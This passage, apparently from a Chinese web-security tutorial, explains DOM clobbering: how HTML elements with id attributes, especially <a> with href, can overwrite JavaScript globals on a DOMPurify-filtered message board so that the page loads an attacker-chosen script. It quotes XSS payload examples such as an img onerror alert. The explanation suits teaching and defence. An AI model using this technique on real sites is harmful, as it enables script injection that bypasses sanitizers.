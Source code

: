``` 
       var script = document.createElement('script')
       script.src = window.TEST_SCRIPT_SRC
       document.body.appendChild(script)
     }
   </script>
 </body>
 </html>
```
假设现在有一个留言板，你可以输入任意内容，但是你的输入在 server 端会透过 DOMPurify 来做处理，把任何可以执行 JavaScript 的东西给拿掉，所以 <script></script> 会被删掉，<img src=x onerror=alert(1)> 的 onerror 会被拿掉，还有许多 XSS payload 都没有办法过关。  
简而言之，没办法执行 JavaScript 来达成 XSS，因为这些都被过滤掉了。  
但是因为种种因素，并不会过滤掉 HTML 标籤，所以你可以做的事情是显示自订的 HTML。只要没有执行 JS，你想要插入什麽 HTML 标籤，设置什麽属性都可以。  
所以呢，你可以这样做：  
``` 
<!DOCTYPE html>
 <html>
 <head>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width, initial-scale=1">
 </head>
 <body>
   <h1>留言板</h1>
   <div>
     你的留言：<div id="TEST_MODE"></div>
     <a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>
   </div>
   <script>
     if (window.TEST_MODE) {
       // load test script
       var script = document.createElement('script')
       script.src = window.TEST_SCRIPT_SRC
       document.body.appendChild(script)
     }
   </script>
 </body>
 </html>
```
根据我们上面所得到的知识，可以插入一个 id 是 TEST_MODE 的标籤 <div id="TEST_MODE"></div>，这样底下 JS 的 if (window.TEST_MODE) 就会过关，因为 indow.TEST_MODE 会是这个 div 元素。  
可以用 <a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>，来让 window.TEST_SCRIPT_SRC 转成字串之后变成我们想要的字。  
在大多数的状况中，只是把一个变数覆盖成 HTML 元素是不够的，例如说你把上面那段程式码当中的 window.TEST_MODE 转成字串印出来：  
``` 
// <div id="TEST_MODE" />
 console.log(window.TEST_MODE + '')
```
结果会是：[object HTMLDivElement]。  
把一个 HTML 元素转成字串就是这样，会变成这种形式，如果是这样的话那基本上没办法利用。但幸好在 HTML 裡面有两个元素在 toString 的时候会做特殊处理：<base> 跟 <a>：  
这两个元素在 toString 的时候会回传 URL，而我们可以透过 href 属性来设置 URL，就可以让 toString 之后的内容可控。  
综合以上手法，学到了：  
- 用 HTML 搭配 id 属性影响 JS 变数
- 用 a 搭配 href 以及 id 让元素 toString 之后变成我们想要的值
